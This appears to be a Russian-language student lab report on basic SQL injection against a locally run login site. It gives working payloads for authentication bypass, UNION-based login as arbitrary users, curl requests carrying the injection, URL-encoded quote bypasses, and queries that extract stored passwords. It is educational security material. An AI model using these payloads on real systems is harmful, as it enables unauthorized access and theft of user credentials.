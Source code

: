 # Лабораторная работа 3
Примитивные SQL инъекции.

## Задание 1
### Запустить сайт из VSCode.

Для начала создадим базу данных с несколькими пользователями.

   ![database.jpg](https://ie.wampi.ru/2023/01/22/database.jpg)

Настроим соединение в файле **"server.js"**.

   ![connection.png](https://im.wampi.ru/2023/01/22/connection.png)
  
Теперь мы можем запустить сайт.

   ![LoginPage.png](https://ie.wampi.ru/2023/01/22/LoginPage.png)
   
Используя SQL-инъекции можно зайти на сайт не зная пароль.

Для этого нужно в поле пароль ввести:

       1234' or 1=1 --

   ![password1.png](https://ic.wampi.ru/2023/01/22/password1.png)
   
   ![adminlogin.png](https://ic.wampi.ru/2023/01/22/adminlogin.png)
   
Также можно зайти под любым логином, даже под несуществующим.

Для этого нужно в поле пароль ввести:

    123' or 1=1 union select 'zxc' order by 1 desc--

   ![randomLogin.png](https://ic.wampi.ru/2023/01/22/randomLogin.png)
   
   ![zxclogin.png](https://ie.wampi.ru/2023/01/22/zxclogin.png)

## Задание 2
### Обойти клиентскую защиту с помощью curl.

Сначала получим доступ с правильными логином и паролем.

    curl -d "name=admin&pass=password" -X POST http://localhost:8080/signin

   ![curlAdmin.png](https://im.wampi.ru/2023/01/22/curlAdmin.png)
   
Теперь попробуем обойти защиту. Получим доступ не зная пароль.

    curl -d "name=admin&pass=12' or 1=1--" -X POST http://localhost:8080/signin

   ![wrongPassCurl.png](https://ic.wampi.ru/2023/01/22/wrongPassCurl.png)
   
Также можно получить доступ под любым логином, используя инъекции из задания 1.

## Задание 3
### Обойти защиту с помощью кодирования кавычки в альтернативный формат (Url encoded).

    %27 or 1=1; --
    
   ![UrlEncoder1.png](https://ic.wampi.ru/2023/01/22/UrlEncoder1.png)

## Задание 4
### Обойти защиту с помощью кодирования кавычки в альтернативный формат (Url encoded) и получить пароль из БД. 

Можно получить пароль определенного пользователя.

    %27 union select pass from users where name = %27admin%27--
    
   ![successPassword.png](https://ic.wampi.ru/2023/01/22/successPassword.png)
    
Или вытащить любой пароль.
    
    1%27 union select (select max(pass) from users) order by 1 desc limit 1--
    
   ![getpass.png](https://ie.wampi.ru/2023/01/22/getpass.png)
   
   
    

    
 
